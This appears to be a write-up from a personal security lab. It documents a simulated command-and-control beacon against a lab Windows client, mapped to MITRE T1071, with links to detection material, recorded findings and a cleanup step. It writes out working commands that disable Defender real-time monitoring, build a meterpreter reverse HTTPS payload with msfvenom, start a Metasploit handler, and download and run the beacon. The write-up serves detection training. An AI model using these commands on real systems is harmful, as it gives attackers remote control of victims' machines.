




# 11 — C2 Beacon Simulation

## Overview

| Field             | Detail                                                                           |
| ----------------- | -------------------------------------------------------------------------------- |
| Status            | ✅ Completed                                                                      |
| Date              | 26 June 2026                                                                     |
| Tier              | Advanced                                                                         |
| Attacker workflow | Kali builds + hosts payload and handler → win-client runs beacon                 |
| Target            | win-client (10.0.10.20)                                                          |
| MITRE Tactic      | Command & Control                                                                |
| MITRE Technique   | [T1071 — Application Layer Protocol](https://attack.mitre.org/techniques/T1071/) |
| Tool              | metasploit / msfvenom                                                            |
| Log Source        | Sysmon Event 3 (Network) + Event 22 (DNS)                                        |
| Detection         | [detection/11-c2-beacon.md](../../detection/11-c2-beacon.md)                     |

> **Prerequisite:** Disable Defender real-time on win-client for the lab (it blocks meterpreter):
> ```powershell
> Set-MpPreference -DisableRealtimeMonitoring $true
> ```

---

## Attack Steps

### 1. On Kali — build the payload and host it

```bash
# Build a reverse HTTPS meterpreter beacon
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.0.10.3 LPORT=443 -f exe -o beacon.exe

# Host it for download
python3 -m http.server 80
```

### 2. On Kali — start the handler

```bash
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set LHOST 10.0.10.3; set LPORT 443; run"
```

### 3. On win-client — download and run the beacon (Admin PowerShell)

```powershell
Invoke-WebRequest -Uri "http://10.0.10.3/beacon.exe" -OutFile "C:\Windows\Temp\beacon.exe"
C:\Windows\Temp\beacon.exe
```

The beacon connects back to Kali at regular intervals — Sysmon Event 3 records the repeated outbound connections.

---

## Detection (summary)

Full SPL, alert settings, and notes: [detection file](../../detection/11-c2-beacon.md).

---

## Findings


| Field                      | Result                     |
| -------------------------- | -------------------------- |
| Date                       | 26 June 2026               |
| Payload used               | /meterpreter/reverse_https |
| Event 3 beacon connections | Yes                        |
| Beacon interval observed   | No                         |
| Alert triggered            | Yes                        |

---

## Screenshots

    
---

## Cleanup

```bash
./scripts/recovery/restore.sh win-client
```
